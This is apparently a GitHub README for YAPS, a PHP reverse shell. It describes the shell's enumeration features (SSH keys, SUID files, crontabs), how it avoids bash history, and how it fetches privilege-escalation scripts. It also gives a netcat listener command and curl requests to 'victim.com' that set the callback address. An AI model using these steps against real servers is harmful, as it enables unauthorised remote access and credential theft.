 # YAPS - **Y**et **A**nother **P**HP **S**hell

Yeah, I know, I know... But that's it. =)

As the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there. It is a single PHP file containing all its functions and you can control it via a simple netcat listener (`nc -lp 1337`).

In the current version (1.0), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs. =)

## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Can do some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* (Semi) Stabilize shell

## Cons
* Connection isn't encrypted (nc does not support SSL)
* Not interactive (although you can spawn an interactive shell with `!stabilize`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via web request (`curl -x POST -d "x=ip&y=port" victim.com/yaps.php` or `curl victim.com/yaps.php?x=ip&y=port`);
3. Open yaps.php on browser or curl it;
4. Hack!

## Working commands
* `!help - Display the help menu`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!stabilize - Spawn an interactive reverse shell on another port (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`

## Screenshots

![image](https://user-images.githubusercontent.com/3837916/124825185-acd24480-df49-11eb-976f-f9db9328eabe.png)

![image](https://user-images.githubusercontent.com/3837916/124777687-c4dca080-df16-11eb-94b7-ef77127c5f20.png)

![image](https://user-images.githubusercontent.com/3837916/124775570-1b48df80-df15-11eb-8a3d-90090e8b8016.png)

![image](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

![image](https://user-images.githubusercontent.com/3837916/124776296-b641b980-df15-11eb-9a3c-396fe1544825.png)


## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell
